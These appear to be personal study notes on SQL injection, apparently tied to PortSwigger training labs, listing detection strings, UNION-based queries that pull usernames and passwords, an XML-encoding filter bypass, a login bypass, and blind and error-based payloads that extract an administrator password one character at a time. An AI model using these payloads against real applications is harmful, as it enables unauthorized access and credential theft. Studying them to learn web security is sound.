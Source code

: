 # SQL Injections
## Detection
```
'
'OR 1=1+--+
'OR 1=2+--+
time-delay payloads
triggering out-of-band network interaction
```
## Examining database
### Versions:
* Oracle DB version: `SELECT * FROM v$version`
* MySQL: `SELECT @@version`
* PostgreSQL: `SELECT version()`

DO AGAIN:
[LAB](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
[LAB](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

### Contents of DB:
* Obtaining database tables (on most of DBs except Oracle): `SELECT * FROM information_schema.tables`
* Obtaining columns: `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
* Oracle: `SELECT * FROM all_tables`, `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

NOTE: It's good idea to query Oracle table 'dual'  

*Example of workflow*
```
' UNION SELECT NULL -- 
' UNION SELECT NULL, NULL -- 
' UNION SELECT @@version, NULL --
' UNION SELECT table_name,NULL FROM information_schema.tables -- 
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table='<table_name>' -- 
' UNION SELECT username, password FROM '<table_name>' -- 
```
## SQLi in different contexts
SQLi could be placed in JSON/XML and also could be obfuscated:
```xml
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
We obfuscate symbols like binary or unicode  
Also we can use Hackvertor plugin for Burp (for encoding in xml use hex entities)  
If wee see that SQLi returns only one column, we can concatenate like this:
```
1 UNION SELECT username || '~' || password FROM users
```

REPEAT THIS [LAB](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

## Examples
### Retrievieng hidden data
`https://insecure-website.com/products?category=Gifts`
When user clicks on the *Gifts* category, browser requests URL from above  
SQL query:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
Here *released* means that product is released and could be viewed by users. If we change released value to 0, we will be able to see all the products  
URL:
`https://insecure-website.com/products?category=Gifts'--`
Query:
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`
Or we can use next query:
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`
And the query will be:
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`
1=1 returns True, so query will return all product from category *Gifts*

### Subverting application logic
If user sends login wiener and pass bluecheese, app will let him in  
Query:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
If we enter `administrator'--` we will get in as administrator without checking password, because query will be next:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

### Retrieving data from other database tables
```
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--
```

## UNION SQLi
### Determining the number of columns
order by method:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
null method:
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

In Oracle we always need to specify FROM. For this purposes we have 'dual' table.  

NOTE: COMMENT COULD BE -- OR #  
To detect certain data type (e.g. string), we can place it inside of series of NULL queries:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

### Retrieving multiple values within a single column
`' UNION SELECT username || '~' || password FROM users--` (Oracle)
Other DBs:
* Microsoft: `'foo'+'bar'`
* Postgres: `'foo'||'bar'`
* MySQL: `'foo' 'bar'` (note the space) or `CONCAT('foo','bar')`

### Blind SQL injections
* Triggered by changing logic of query (boolean results, divide-by-zero etc)
* Time delay of processing query
* Out-of-band network ineraction

#### Conditional responses
Example:  
Site uses tracking cookies with some token which is compared to tokens in DB and if it appears to be there, site returns hello message  
If we add `AND '1'='1` nothing will change because it's True statement  
But if we add `AND '1'='2` it will fail and we will detect Blind SQLi  
We can use it to brute password symbol by symbol like this:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm        #returns True, meaning that 1 symbol of pass is greater then m
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't        #returns False, meaning that 1 symbol of pass is less then t
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's        #returns True, meaning that 1 symbol of pass is s
```
Note: SUBSTRING() function could be named SUBSTR() on some DBs  
To check next symbol use SUBSTRING((...), 2, 1)  
it's good idea to use Burp Intruder or Python script

#### Error-based SQLi
In such case we force DB to do smth which throws an error  
For example we can force DB to try divide-by-zero:
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a          # nothing happens, because 1=2 is False and we just evaluate a to a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a          # we force DB to 1/0 because 1=1 is True
```
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
xyz' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a') THEN TO_CHAR(1/0) ELSE 'Z' END FROM dual) = 'Z
```
In such case if 1 character of password is more then 'm', nothing happens. But if it's smaller, we force DB to 1/0, which throws an error  
For different DBs:
* Oracle: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual `
* Microsoft: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END `
* Postgres: `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
* MySQL: `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

### Second-order SQLi
SQLi which is stored inside server/database and executed later with another HTTP request. Also called stored SQLi  





